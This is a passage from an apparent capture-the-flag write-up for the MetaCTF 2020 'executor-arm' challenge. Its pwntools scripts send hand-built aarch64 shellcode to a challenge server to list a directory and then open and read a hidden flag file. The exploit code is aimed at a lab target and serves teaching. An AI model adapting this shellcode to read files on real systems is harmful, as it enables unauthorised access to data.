     svc  #0x1337


    // write(1, *buf, size)
    str  x0, [sp, #-8]!
    lsr  x0, x2, #11
    ldr  x2, [sp], #8
    mov  x8, #64
    svc  #0x1337
    '''
    r.sendline(asm(p))
    r.interactive()

if __name__ == "__main__":
    main()
{% endhighlight %}

and now we got the flag filename


<img src="/images/MetaCTF2020/executor3.png"/>

now we can just read the flag using that name.
{% highlight python %}

from pwn import *
context.arch = "aarch64"
def main():
    r = remote("executor-arm.metaproblems.com",12334)
    p = '''
    // stage 3: reading a secret file inside the directory
    // fd = openat(0, "/home/user/not-a-easily-guessable-flag-file-a489df083c.txt", O_RDONLY)
    mov  x0, xzr
    mov  x1, #0x7478
    movk x1, #0x00, lsl #16
    str  x1, [sp, #-8]!
    movk x1, #0x6664
    movk x1, #0x3830, lsl #16
    movk x1, #0x6333, lsl #32
    movk x1, #0x742e, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x6c69
    movk x1, #0x2d65, lsl #16
    movk x1, #0x3461, lsl #32
    movk x1, #0x3938, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x2d65
    movk x1, #0x6c66, lsl #16
    movk x1, #0x6761, lsl #32
    movk x1, #0x662d, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x7567
    movk x1, #0x7365, lsl #16
    movk x1, #0x6173, lsl #32